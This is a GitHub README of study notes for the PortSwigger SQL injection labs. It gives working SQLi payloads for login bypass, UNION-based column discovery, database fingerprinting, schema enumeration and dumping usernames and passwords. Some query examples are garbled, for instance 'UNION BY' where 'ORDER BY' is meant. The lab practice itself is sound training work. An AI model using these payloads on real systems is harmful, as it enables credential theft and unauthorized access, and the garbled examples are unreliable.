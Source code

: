 <div align="center">
  <h1>------------------------------ SQLi LABS 001 -------------------------------</h1>
</div>

# [CheatSheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## Lab 1: `Retrieving hidden data`, where you can modify a SQL query to return additional results.
- Original Query: `SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
- Modified: ![image](https://github.com/user-attachments/assets/e4236490-1079-4f23-92c9-a4097f63a50c)
- Query to executed by DB after injections: `SELECT * FROM products;`

### Injections:
- `'OR '1'='1` - This payload appends an OR condition that always evaluates to true.
- `'OR 1=1 --` - This payload appends an OR condition that always evaluates to true, commenting out the remaining portion of the original query.
- `'OR 'x'='x` - This payload compares a string with itself, resulting in a true condition.

## Lab 2: SQL injection vulnerability allowing `login bypass` [Link](https://portswigger.net/web-security/sql-injection/lab-login-bypass)
- Original Query: `SELECT firstname FROM users WHERE username='administrator' AND password='p@ssw0rd'`
- payload: `administrator'--`
- Modified: `SELECT firstname FROM users WHERE username='administrator'--' AND password='admin'`
- Query to executed by DB after injections: `SELECT firstname FROM users WHERE username='administrator';`

### Injections:
- `'admin'--'` - Commenting out the remaining portion of the original query.

## Lab 3: SQL injection UNION attack, determining the number of columns returned by the query
1. ' ORDER BY 1-- injecting a series of ORDER BY clauses and incrementing the specified column index until an error occurs.
- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- Modified: `SELECT * FROM products WHERE category = 'Gifts' UNION BY 4--`
- Query to executed by DB after injections: `It should throw a Server side Error 500`

2. Submitting a series of `UNION SELECT` payloads specifying a different number of null values, will help in determining the columns unless we get the error.

- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- Modified: `SELECT * FROM products WHERE category = 'Gifts' UNION SELECT NULL,NULL,NULL,NULL--`
- Query to executed by DB after injections: `It should throw a Server side Error 500`


## Lab 4: SQL injection UNION attack, finding a column containing text
- First, Determine the number of columns returned by the query.
- Second, Determine a column that is compatible with string data. 

- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- Modified: `SELECT * FROM products WHERE category = 'Gifts'+UNION+BY+4--` (Server Error, means number of columns = 3)
- Modified: `SELECT * FROM products WHERE category = 'Gifts'+UNION+SELECT+'a',NULL,NULL--` (Server Error, means this column accepting text value)
- Modified: `SELECT * FROM products WHERE category = 'Gifts'+UNION+SELECT+NULL,NULL,'a'--` (Server Error, means this column accepting text value)
- Modified: `SELECT * FROM products WHERE category = 'Gifts'+UNION+SELECT+NULL,'a',NULL--` ('a' determine that the 2nd column accepting text value)

## Lab 5: SQL injection UNION attack, `retrieving data from other tables` [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-using-a-sql-injection-union-attack-to-retrieve-interesting-data/sql-injection/union-attacks/lab-retrieve-data-from-other-tables#)

- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- Modified: `SELECT * FROM products WHERE category = 'Gifts'UNION+SELECT+username,password+FROM+users--` This should return all the users available in USERS table. (Since, table and columns name were given in Lab description. We can take it from there)
- Login > Enter the Administrator Cred > Done
- ![image](https://github.com/user-attachments/assets/003e7533-e7c9-401d-824d-fe7c7a34fe98)


## Lab 6: SQL injection UNION attack, retrieving multiple values in a single column [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-retrieving-multiple-values-within-a-single-column/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- Modified:
```
'Union+select+Null,NULL-- To determine the No. of columns

'Union+select+Null,'XYZ'-- To determine which column allows TEXT values

'Union+select+Null,username+from+users-- To retrieve Single TEXT value

'Union+select+Null,password+from+users-- To retrieve Single TEXT value

'Union+select+Null,username||password+from+users-- To retrieve Multiple TEXT value

'Union+select+Null,username||'~'||password+from+users-- To retrieve Multiple TEXT value with separator
```
- Login with Admin Creds to Solve the LAb
- ![image](https://github.com/user-attachments/assets/d73f2473-adfa-4ba2-beac-dfc914e9e354)

## Lab 7: SQL injection attack, querying the database type and version on Oracle `Union Query` [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-examining-the-database-in-sql-injection-attacks/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)
- On Oracle databases, every SELECT statement must specify a table to select FROM.
- If your `UNION SELECT` attack does not query from a table, you will still need to include the `FROM` keyword followed by a valid table name.
- There is a `built-in table on Oracle called 'dual'` For example: `UNION SELECT 'abc' FROM dual`

1. For Oracle:
- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- Modified: `SELECT * FROM products WHERE category = 'Gifts' UNION SELECT 'abc','def' FROM dual--`
- Query to executed by DB after injections: `SELECT * FROM products WHERE category = 'Gifts'' UNION SELECT 'abc','def' FROM dual--`
- To get the Oracle Version: `SELECT * FROM products WHERE category = 'Gifts'union+SELECT+banner,NULL+FROM+v$version--`

- Injections: `'union+SELECT+banner,NULL+FROM+v$version--` - Concate the second query with Union clause in Original Query.

2. For MYSQL:
- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- Modified:
```
- 'UNION+SELECT+NULL,NULL#        Determine the Number of Columns, By comments it's MYSQL DB
- 'UNION+SELECT+@@version,'abc'#  Refer cheatsheet for cmd
- 'UNION+SELECT+@@version,+NULL#
```

## Lab 9: SQL injection attack, listing the database contents on non-Oracle databases [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-examining-the-database-in-sql-injection-attacks/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)
- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- A `Common set of views` available in Non-Oracle DBs to list out the tables in the database: `information_schema.tables` as `SELECT * FROM information_schema.tables`
- Also, To list the columns in individual tables: `information_schema.columns` as `SELECT * FROM information_schema.columns WHERE table_name = 'Users'`
- ![image](https://github.com/user-attachments/assets/bf84e527-c095-4c97-ab4f-eb516c8fd6da)

- Modified:
```
'UNION+SELECT+NULL,NULL-- To check the No. of Columns

'UNION+SELECT+version(),NULL--  To check DB version - Mysql

'Union+SELECT+TABLE_NAME,NULL+FROM+information_schema.tables-- To return TABLE_NAME from information_schema.tables views

'UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_wifyly'-- To return column_name from information_schema.columns views

'UNION+SELECT+username_wcliss,password_ozuvxe+FROM+users_wifyly-- TO extract the info from table
```


/*The NEXT*/
